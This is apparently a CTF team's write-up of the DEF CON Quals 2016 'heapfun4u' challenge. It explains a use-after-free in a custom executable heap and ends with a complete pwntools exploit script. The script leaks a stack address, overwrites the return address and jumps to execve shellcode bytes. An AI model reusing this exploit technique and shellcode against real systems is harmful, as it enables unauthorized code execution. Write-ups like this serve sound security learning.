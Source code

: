 ```yaml
---
title:      Defcon Quals 2016 - Heapfun4u 
author:     giosch + frydrichas + marcof
date:       2016-05-31 16:00:00
summary:    custom heap, use-after-free, return-to-shellcode 
categories: DefconQuals2016
tags:
 - Defcon Quals
 - heapfun4u
 - Exploitable
 - heap
 - shellcode
 - after-free
 - 2016
---
```


This challenge is a memory manager that implement a custom "heap", allocated using mmap, with the permissions bitmap set to rwx.
We have a main menu in which we can

`
[A]llocate Buffer
[F]ree Buffer
[W]rite Buffer
[N]ice guy
[E]xit
| `



Allocate: "malloc" of an arbitrary size.<br>
Free: "free" the chunk we select. Also list all the chunks and the respective addresses.<br>
Write: let us write in the data part of the specified chunk.<br>
Nice guy: print an address of a variable of the stack.<br>
Exit: quit the program.<br>

All chunks' pointer are saved in a global array (so there is a limit to their number, but the check on that is well made), but when you free a chunk, the pointer is no deleted from the array, so we can still write on it.

Inspecting the memory with qira, we saw that when we free a chunk with another allocate chunk after that, a pointer is saved at the end of the freed area. That address point to what we think is the "top chunk size", so where the next "malloc" will allocate the next chunk.

We tried to edit it writing on a freed chunk, and we managed to change the allocation point of the next chunk inside another chunk previously declared (inside that chunk data we put a "valid" top chunk size).

So we have something like an arbitrary write, an executable "heap" and a stack address (and no canary to worry about). Out first thought is to overwrite the saved return address of the main on the stack, forcing the program to jump on a shellcode on the executable heap.

At first we tried just writing stuff on the stack, but it didn't work. Then marcof noticed that maybe not only the top chunk size pointer that we can overwrite need to point to a valid top chunk size, but after the malloc, the nex top chunk size should maybe be on a previous memory area with all zeroes.
With qira we found the addresses on the stack of a valid top chunk size and a length for the malloc that allowed us to make the chunk stop on an area with zeroes.That suddenly worked, so we proceded to write the exploit in python using the pwntools.




{% highlight Python%} 
#!/usr/bin/python

from pwn import *

r = remote("heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me",3957)

#r  = remote("localhost",4000)

def allocate(size):
    r.sendline("A")
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")



def free(index):
    r.sendline("F")
    r.recvuntil("Index: ")
    r.sendline(str(index))
    r.recvuntil("| ")

def write(index, what):
    r.sendline("W")
    r.recvuntil("Write where: ")
    r.sendline(str(index))
    r.recvuntil("Write what: ")
    r.sendline(what)
    r.recvuntil("| ")

def nice():
    r.sendline("N")
    r.recvuntil("Here you go: ")
    leak = r.recvuntil("[A]")
    leak = leak[:-4]
    r.recvuntil("| ")
    return int(leak,16)

def esci():
        r.sendline("E")

def setAddress(addr):
    write(1,p64(addr))

def allocate_(size,payload):
    r.sendline("A"+payload)
    r.recvuntil("Size: ")
    r.sendline(str(size))
    r.recvuntil("| ")

   

allocate(16)
allocate(100)
allocate(100)
free(1)
stack = nice()
print "Stack leak -> " + hex(nice())
payload = p64(nice())+"\x00"*7
write(1,payload)
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
write(3,shellcode)

context.log_level = 'DEBUG'
setAddress(nice()+28)
allocate_(384,"A"*7+p64(0x190)) #sarebbe 180 ma abbondo

r.sendline("W")
r.recvuntil("3) ");
heap_addr = r.recvuntil("4) ");
heap_addr = heap_addr[:-11];
print heap_addr
r.recvuntil("Write where: ")
r.sendline("4")
r.recvuntil("Write what: ")
r.sendline("A"*280+p64(int(heap_addr,16))+"C"*95)
r.recvuntil("| ")
esci()
r.interactive()

{% endhighlight %}

 giosch
